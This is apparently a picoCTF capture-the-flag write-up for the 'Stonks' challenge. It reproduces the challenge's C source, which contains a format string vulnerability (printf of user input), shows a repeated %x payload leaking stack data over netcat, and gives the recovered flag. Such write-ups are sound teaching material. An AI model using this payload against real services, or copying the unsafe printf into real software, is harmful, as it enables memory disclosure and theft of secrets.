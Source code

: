 # Description

![Screenshot from 2023-02-19 12-10-17](https://user-images.githubusercontent.com/115702866/219933189-77e90bb0-e75a-4fa1-86f6-4dcaddd90f3f.png)

# Solution 

First we run the program.

```t
youguess@youguess-Inspiron-14-5410-2-in-1:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
asdf;lkj
Buying stonks with token:
asdf;lkj
Portfolio as of Sun Feb 19 06:44:30 UTC 2023


1 shares of JSV
6 shares of NWQ
16 shares of YCAU
6 shares of Z
27 shares of OI
76 shares of ZZON
3 shares of MF
98 shares of SHS
57 shares of UPHS
305 shares of KZ
Goodbye!
```

On giving an input of 1 we are giving the option of buying stocks by entering an api token. Entering a random api token results in the purchase of shares 
of varying quantities.

```t
youguess@youguess-Inspiron-14-5410-2-in-1:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
2

Portfolio as of Sun Feb 19 06:47:08 UTC 2023


You don't own any stonks!
Goodbye!
```
Trying to view my portfolio by entering 1 results in the above message being displayed.
I then checked the source code providedF.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}
```
In the function buy_stonkso we see that is reading the flag(api) from the file 'api' and storing it in the stack 'api_buf'. It then aks the user to input 
their api token which is stored in the stack 'user_buf' and then prints it. After doing some reading I found out that this is a type of string format 
vulnerability. We can exploit this by inputting %x repeatedly to read the api from the stack to extract the hexadecimal values.
```t
youguess@youguess-Inspiron-14-5410-2-in-1:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x 
Buying stonks with token:
989e450804b00080489c3f7f75d80ffffffff1989c160f7f83110f7f75dc70989d1801989e430989e4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffe1007d
Portfolio as of Sun Feb 19 07:44:51 UTC 2023


1 shares of THT
1 shares of W
7 shares of QTDX
11 shares of JUN
4 shares of BQB
60 shares of H
14 shares of SR
95 shares of VRI
152 shares of Y
150 shares of SF
1478 shares of KIR
Goodbye!
```
Converting this hexadecimal to ASCII we get text that vaguely resembles the flag. I realised that the bytes are not in the right order as we extracted them from a stack in the top down uproach. After rearranging them in the right order the obtained flag was picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}



